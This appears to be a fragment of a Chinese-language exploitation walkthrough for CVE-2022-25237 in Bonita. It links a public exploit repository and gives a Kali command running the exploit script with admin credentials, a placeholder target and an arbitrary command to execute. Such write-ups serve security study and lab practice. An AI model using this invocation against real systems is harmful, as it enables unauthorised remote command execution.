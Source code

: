<img src="2024-02-13/image-20230213204909091.png" alt="image-20230213204909091" style="zoom:67%;" />

如图成功建立admin用户名<img src="2024-02-13/image-20230213205204434.png" alt="image-20230213205204434" style="zoom:67%;" />

**使用脚本**

```
https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2022-25237
```

下载py文件和zip包，放在同一目录下

 https://zhifengmuxue.top/2023/2/13/CVE-2022-25237

在kali中中调用脚本

```
python3 CVE-2022-25237.py admin admin http://ip:port/bonita '指令'
```

![image-20230213212404064](2024-02-13/image-20230213212404064.png)
